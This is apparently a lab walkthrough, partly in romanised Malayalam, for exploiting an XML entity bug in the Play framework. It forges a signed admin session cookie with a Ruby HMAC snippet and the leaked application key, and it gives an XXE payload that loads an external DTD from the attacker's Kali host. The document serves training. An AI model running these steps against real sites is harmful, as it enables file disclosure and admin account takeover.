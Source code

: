 ```
signature-%00name1:value1%00%00name2:value2%00
```
-->In this version of Play, the following is used:
```
signature-name1=value1&name2=value2
```
-->The code used can be found in framework/src/play/src/main/scala/play/api/mvc/Http.scala:
```
	def encode(data: Map[String, String]): String = {
	      val encoded = data.map {
	        case (k, v) => URLEncoder.encode(k, "UTF-8") + "=" +
	URLEncoder.encode(v, "UTF-8")
	      }.mkString("&")
	      if (isSigned)
	        Crypto.sign(encoded) + "-" + encoded
	      else
	        encoded
	    }
```
-->We will now need to add our own variable: user=admin
-->Finally, we can sign the session, the original code looks like:
```
	def sign(message: String, key: Array[Byte]): String = {
	    val mac = Mac.getInstance("HmacSHA1")
	    mac.init(new SecretKeySpec(key, "HmacSHA1"))
	    Codecs.toHexString(mac.doFinal(message.getBytes("utf-8")))
	  }
```
-->In ruby, this can be done using:
```
KEY = "[KEY FOUND IN conf/application.conf]"
	def sign(data)
	  OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, KEY,data)
	end
```
-->The final step is to know the name of the session's cookie. Since it has not been changed in conf/application.conf, the default name is used: PLAY_SESSION
-->After setting this cookie in our browser, we can see that we are now logged in as admin

## Conclusion
-->This exercise explained you how to exploit a XML entity bug in the Play framework. This bug is pretty interesting since it impacts the framework itself as opposed to the way the developers used it.

# Vidoe Explanation
## Video - play xml exploitation
-->so lab open chyuka apol namuk kanan patum mukalil aayi login button.so ath click chyuka apol oru login form kanan patum
-->ivide namuk puthiya account undakan ulla signup form illa.only login form mathrame ullu.so namuk puthiya accoutn undakan patila
-->ivide admin:admin  enn koduth login chyumbol invalid username or passwd enn kanikunu
-->so ee login request ie, /login eduth repeater il iduka.
-->namal ivide xml type exploit aan chyan udheshikunath.so namuk request xml type aaki matam
-->ivide `Content-Type: application/x-www-form-urlencoded`  ennan undavuka so ath mati namuk xml support chyunath aakanam so `Content-Type: text/xml`  enn koudkanam
-->ini post request ile  body il ulla passwd=&username= remove chythit namal avide xml payload kodukanam :
```
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://[our kali ip]:8000/test.dtd">
<foo>&e1;</foo>
```